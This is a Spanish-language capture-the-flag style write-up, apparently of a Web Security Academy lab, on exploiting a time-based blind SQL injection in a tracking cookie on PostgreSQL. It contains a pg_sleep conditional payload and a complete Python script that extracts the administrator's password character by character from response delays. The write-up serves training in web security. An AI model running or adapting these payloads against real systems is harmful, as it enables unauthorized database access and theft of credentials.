 
* **Explotación**

Al igual que en el Oracle, puedo crear una condición que se encarge de iterar por cada caracter, pero esta vez a base del tiempo y no del código de estado

```null
Cookie: TrackingId=jCIXibJNL8DfHHYA'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -
```

También es válido obtener la longitud de la contraseña con la query anterior. Creo un nuevo script en python para dumpear la contraseña

```null
#!/usr/bin/python3
from pwn import *
import requests, string, signal, time, sys, pdb

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

characters = string.ascii_lowercase + string.digits
main_url = "https://0ab1003603d790f68013943100490077.web-security-academy.net/"

def MakeRequest():

    password = ""
    p1 = log.progress("Blind SQLi:")
    p2 = log.progress("Password:")

    for position in range(1, 21):

        for character in characters:

            time_init = time.time()

            cookies = {
                'TrackingId': "jCIXibJNL8DfHHYA'||(select case when substring(password,%d,1)='%s' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                'session': 'WH1CuCd9cSPeHKglVlUoKmdzLJ5nH5cW'
            }

            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies=cookies)

            time_end = time.time()

            if time_end - time_init > 3:
                password += character
                p2.status(password)
                break



if __name__ == '__main__':
    MakeRequest()
```

